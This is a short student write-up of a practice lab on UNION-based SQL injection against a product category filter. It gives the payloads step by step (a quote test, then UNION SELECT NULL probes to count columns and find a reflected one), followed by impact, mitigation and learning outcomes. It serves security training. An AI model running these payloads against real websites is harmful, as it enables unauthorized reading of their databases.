




# SQL Injection UNION Attack - Lab 3

## Introduction
This lab demonstrates a SQL Injection vulnerability using UNION SELECT to determine the number of columns and identify visible columns in the response.

---

## Objective
- Identify number of columns  
- Find visible column  
- Inject test data using UNION  

---

## Application Overview
The application filters products based on category using a URL parameter.

---

## Steps

### 🔹 Normal Request


---

### 🔹 SQL Injection Test

```
/filter?category=Gifts'
```



---

### 🔹 UNION Attempt

```
/filter?category=Gifts' UNION SELECT NULL--
```



---

### 🔹 Column Detection

```
/filter?category=Gifts' UNION SELECT NULL,NULL--
```


---

### 🔹 Finding Visible Column

```
/filter?category=Gifts' UNION SELECT 'test',NULL--
```



---

## Result
- Number of columns identified  
- Visible column detected  
- Injection successful  

---

## CVSS Score
- Score: 7.5 (High)  
- Severity: High  

---

## Impact
- Data can be extracted from database  
- Sensitive information exposure  
- Database structure disclosure  

---

## Mitigation
- Use prepared statements  
- Validate user input  
- Avoid dynamic SQL queries  

---

## Learning Outcome
- Learned UNION-based SQL Injection  
- Understood column enumeration  
- Identified reflected output  

---

## Conclusion
This lab shows how attackers can manipulate queries to extract data by combining results using UNION.